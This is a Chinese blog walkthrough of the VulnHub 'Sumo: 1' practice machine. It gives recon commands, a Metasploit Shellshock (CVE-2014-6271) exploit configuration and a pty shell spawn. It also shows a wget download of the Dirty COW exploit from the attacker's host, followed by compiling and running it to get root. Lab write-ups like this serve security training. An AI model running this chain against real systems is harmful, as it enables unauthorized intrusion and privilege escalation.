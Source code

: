 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/n7HmbRANZzEyAMtn4CGDBw)

大家好，我们是想要为亿人提供安全的亿人安全，这是我们自己想要做的事情，也是做这个公众号的初衷。希望以干货的方式，让大家多多了解这个行业，从中学到对自己有用的知识。

**靶机描述：**

Target Address：http://www.vulnhub.com/entry/sumo-1,480/

Difficulty: Beginner(新手)  

Goal: Get the root shell i.e.(root@localhost:~#) and then obtain flag under /root).

Operating System: Linux

扫描靶机 ip 为 192.168.86.152

```
arp-scan -l
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqIIlourB3861TVdjVzX7icx7j0EhFPBbG94sibiaBPufxzg3P4YD7TKoictPXt5h2mjVicqVOu9UvoKVA/640?wx_fmt=png)

版本侦测和查看开放端口

```
nmap -sV -p- 192.168.86.152
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqIIlourB3861TVdjVzX7icxPQ3ib0oj7TovKia2HlT5mpkrQoc9aOlN0lT6tSpicib4hfrsde5Z8EkTUg/640?wx_fmt=png)

进入浏览器访问 80 端口，提示此为服务器默认页面  

```
http://192.168.86.152:80
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqIIlourB3861TVdjVzX7icxx5EU33z7Zib1Yaksia8hSUbFTL0NeRUTxvuQpuK3R6QsMMmdfAlwSUBw/640?wx_fmt=png)

执行 nikto 命令，OSVDB-112004 似乎存在漏洞

```
nikto -h http://192.168.86.152
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqIIlourB3861TVdjVzX7icx4jBYAe58BYiaiaTG8Nxj3IxwDuygVW9N6FMt2Fu817CwISGp2BJTLTEQ/640?wx_fmt=png)

用浏览器查看提示页面，找出漏洞 id 名 CVE-2014-6271

```
http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqIIlourB3861TVdjVzX7icxpeqgAfFGmj1OpydSlAVGaFjC9VuYcNa0nReHicju1GkwMa6x10S2qjA/640?wx_fmt=png)

使用 msfconsole，搜索攻击方式

```
msfconsole
search CVE-2014-6271
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqIIlourB3861TVdjVzX7icxRuUPVlSicQibia6lrrp5MfzRnPiabxWUVkDoQj7NcBIQ9eyR3XCCp4jLjA/640?wx_fmt=png)

选择攻击方式，进行攻击设置

```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set rhosts 192.168.86.152
set targeturi /cgi-bin/test
run
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqIIlourB3861TVdjVzX7icxXLKoRoutSRWkUjZH2RmZQ5gica62jT5FG3ibLQJxzRSIrIDb00NotKqQ/640?wx_fmt=png)

反弹 shell，变为交互式 tty，查看文件属性

```
shell
python -c'import pty;pty.spawn('/bin/bash')'
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqIIlourB3861TVdjVzX7icxSQzbNMcL7aVrjylsU4zbDj7xmvvFlbb6QgwibM6NcBl8tm9YYKFCOhA/640?wx_fmt=png)

使用脏牛提权，而脏牛提权漏洞影响 >=2.4.22 版本，执行命令查看内核版本

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqIIlourB3861TVdjVzX7icxUhkcWXY8zXe3fIwwXO2tqg6qyiaB9VyAeP06W1DnM9zLmWziceozL10w/640?wx_fmt=png)

下载脏牛漏洞脚本，文件名为 dirtycowscan.sh

```
https://github.com/aishee/scan-dirtycow/blob/master/dirtycowscan.sh
```

kali 开启 http 服务

```
python -m SimpleHTTPServer 8000
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqIIlourB3861TVdjVzX7icxSOAHmBxDTtqO8O8EdWfKmbaBNDywJxicQ4jRkOYxRzngYNaeGMNYD5Q/640?wx_fmt=png)  

远程访问 kali 并下载脚本文件，扫描并发现存在脏牛漏洞

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqIIlourB3861TVdjVzX7icxc6SicYb60KKJRuFH7MC3Dop9D9pDC0ubpqmxrEXibaPKcsH7ibJvY7Oew/640?wx_fmt=png)

把链接中的代码在 kali 中编辑成. c 的格式

```
https://www.exploit-db.com/raw/40839
```

在 shell 中下载 dirty.c 的文件，修改文件权限，进行编译 (方法在脚本的注释行中)

```
wget http://192.168.86.138:8000/dirty.c
chmod 777
gcc -pthread dirty.c -o dirty -lcrypt
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqIIlourB3861TVdjVzX7icxRmk0skbTicmsryCgOzeMsC1DiaHiaVFJ2oAjiaCTATaGGdJd5MhkVibqQOw/640?wx_fmt=png)

运行脚本，输入密码的地方可以随意设置

```
./dirty testpasswd
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqIIlourB3861TVdjVzX7icxIcpDta4xa7wxdDvFlr06j4S7S6mfeMCzshD53JNjoUXaA066K6scYg/640?wx_fmt=png)

使用 firefart 用户登录，使用刚刚设置的密码，获得 root 权限，拿到 flag

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqIIlourB3861TVdjVzX7icx8lBF7YQ05ibDKMAutWTyTDH1GVsgz97Ur8XDD63o3ObWJdmnVsptfbw/640?wx_fmt=png)